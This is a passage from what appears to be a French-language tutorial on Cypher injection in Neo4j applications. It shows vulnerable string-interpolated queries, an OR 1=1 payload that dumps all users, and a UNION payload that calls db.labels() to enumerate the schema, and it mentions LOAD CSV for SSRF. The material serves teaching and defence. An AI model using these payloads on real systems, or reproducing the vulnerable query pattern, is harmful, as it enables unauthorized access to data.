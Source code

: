 #### 4.3 Pourquoi Cypher est Particulièrement Vulnérable

```
🔗 Flexibilité des Clauses :
   SQL : Clauses fixes (SELECT, INSERT, UPDATE, DELETE)
   Cypher : Clauses chaînables librement

💪 Puissance du Langage :
   - LOAD CSV pour SSRF
   - APOC pour fonctions avancées  
   - Procédures système (db.labels, etc.)

🌐 Composition de Requêtes :
   Possibilité d'ajouter des clauses avec UNION, WITH, etc.
```

***

### 5. Types d'Injections Cypher

#### 5.1 Injection In-Band (Dans la Bande)

Les résultats malveillants sont directement visibles dans la réponse de l'application.

**🎯 Injection Simple**

```cypher
// Application : Recherche d'utilisateur
GET /users/search?name=Alice

// Code backend vulnérable
MATCH (u:Utilisateur) WHERE u.nom CONTAINS '${name}' RETURN u

// 💣 Payload d'attaque
name = Alice' OR 1=1 RETURN u//

// 💥 Requête exécutée
MATCH (u:Utilisateur) WHERE u.nom CONTAINS 'Alice' OR 1=1 RETURN u//' RETURN u
                                              └──┬──┘
                                         Retourne TOUS les utilisateurs
```

**🔗 Injection avec UNION**

```cypher
// Application : Profil utilisateur par ID  
GET /profile/42

// Code backend
MATCH (u:Utilisateur) WHERE id(u) = ${id} RETURN u.nom, u.email

// 💣 Payload sophistiqué
id = 42 RETURN "dummy" AS nom, "dummy" AS email UNION CALL db.labels() YIELD label AS nom, "system" AS email//

// 💥 Résultat : Récupération des labels de la base
[
  {"nom": "dummy", "email": "dummy"},
  {"nom": "Utilisateur", "email": "system"},  
  {"nom": "Produit", "email": "system"},
  {"nom": "Commande", "email": "system"}
]
```
